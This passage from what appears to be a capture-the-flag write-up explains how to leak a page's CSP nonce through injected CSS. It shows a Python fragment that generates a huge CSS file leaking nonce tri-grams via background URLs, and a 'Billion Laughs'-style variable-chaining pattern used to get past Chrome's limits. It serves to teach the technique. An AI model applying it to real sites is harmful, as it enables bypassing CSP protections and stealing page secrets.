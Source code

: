     props.append(f"var(--prop_{s},none)")

with open(f'{CSS_DIR}/first_og.css', 'wt') as fp:
    fp.write(all_css)
    fp.write(TEMPLATE_BACKGROUND_META % (",".join(props)))
{% endhighlight %}


This produces a whopping 280,000 line CSS file, with the last line performing the `background` URL loading containing a whopping 2MiB of characters alone. Attempting exfiltrate the nonce by leaking tri-grams as above, we are greeted with the following error message*:

![not-an-actually-useful-stack-overflow](/images/newdiary/buffer_overflow.png)

_*Firefox happily accepts this payload and gives us the tri-grams we need to solve the challenge._

With a bit of trial and error, after reducing the load to simply bi-grams, I managed to root cause the issue to the number of variables that are being parsed at the last `background` load. It looks like Chrome does not like loading so many variables in a single `background`, not that I can blame it since it's a pretty long string of variables. Interestingly enough, there also seems to be a limit that browsers can impose as well [or else the user-agent becomes subsceptible to a "Billion Laughs"-like attack](https://drafts.csswg.org/css-variables/#long-variables), but it doesn't seem like the case here. Either way, we need to find away around this annoyance in order to get the nonce.

### CSS Unchained

Since Chrome is essentially complaining about the number of variables it has to load, if we can somehow reduce the number of variables at the end, then we might just be able to work around this. The absolute number of URLs that it actually has to make is quite small (it is literally just the number of characters in the nonce, give or take a few requests). 

If we take a look at the Billion Laughs CSS payload, it performs concatentation of properties based on an earlier defined property:

{% highlight css %}
.foo {
  --prop1: lol;
  --prop2: var(--prop1) var(--prop1);
  --prop3: var(--prop2) var(--prop2);
  --prop4: var(--prop3) var(--prop3);
  /* etc */
}
{% endhighlight %}
